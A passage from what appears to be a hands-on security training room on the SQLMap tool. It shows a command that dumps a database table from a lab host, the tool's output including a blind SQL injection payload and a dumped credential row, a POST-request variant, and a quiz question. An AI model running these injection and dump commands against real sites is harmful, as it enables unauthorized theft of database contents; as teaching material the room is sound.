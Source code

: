```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:51:48] [INFO] resuming back-end DBMS' mysql' 
[08:51:48] [INFO] testing connection to the target URL
[08:51:49] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:51:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:51:49] [INFO] fetching columns for table 'thomas' in database 'users'
[08:51:49] [INFO] fetching entries for table 'thomas' in database' users'
[08:51:49] [INFO] recognized possible password hashes in column 'passhash'
do you want to store hashes to a temporary file for eventual further processing n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: users
Table: thomas
[1 entry]
+---------------------+------------+---------+
| Date                | name       | pass    |    
+---------------------+------------+----------
| 09/09/2024          | Thomas THM | testing |    
+---------------------+------------+---------+

[text removed]
```

However, unlike the URL used for testing above, you can also use POST-based testing, where the application sends data in the request's body instead of the URL. Examples of this could be login forms, registration forms, etc. To follow this approach, you must intercept a POST request on the login or registration page and save it as a text file. You can use the following command to input that request saved in the text file to the **SQLMap** tool:

```shell
user@ubuntu:~$ sqlmap -r intercepted_request.txt
```

Note: Learning how to intercept and capture POST requests is out-of-scope for this room.

**Question 1:** Which flag in the SQLMap tool is used to extract all the databases available?
